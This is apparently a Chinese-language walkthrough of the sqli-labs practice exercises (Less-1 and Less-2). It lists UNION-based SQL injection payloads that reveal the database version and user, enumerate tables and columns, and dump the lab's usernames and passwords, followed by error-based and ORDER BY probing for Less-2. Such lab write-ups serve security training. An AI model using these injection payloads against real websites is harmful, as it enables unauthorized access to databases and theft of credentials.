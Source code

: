 4、查用户、数据库名、数据库版本

```
?id=-1' union select 1,database(),3 --+
-->security

?id=-1' union select 1,version(),3 --+
-->10.2.26-MariaDB-log

?id=-1' union select 1,user(),3 --+
-->root@localhost
```

5、当前数据库所有表名

```
?id=-1'union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security'--+
-->emails,referers,uagents,users
```

6、查看users表

```
?id=-2' union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users'and table_schema='security' --+
-->id,username,password
```

7、查看username和password

```
?id=-1' union select 1,2,group_concat(username ,'~', password) from users--+
-->Dumb~Dumb,Angelina~I-kill-you,Dummy~p@ssword,secure~crappy,stupid~stupidity,superman~genious,batman~mob!le,admin~admin,admin1~admin1,admin2~admin2,admin3~admin3,dhakkan~dumbo,admin4~admin4
```

## Less-2

1、判断为数字型注入，

```
?id=1'
--> You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '' LIMIT 0,1' at line 1 

?id=1 and 1=1
-->正常

?id=1 and 1=2
-->报错
```

2、确定列数为3

```
?id=1 order by 1,2,3
-->Your Login name:Dumb
    Your Password:Dumb 

?id=1 order by 1,2,3,4
--> Unknown column '4' in 'order clause' 
```
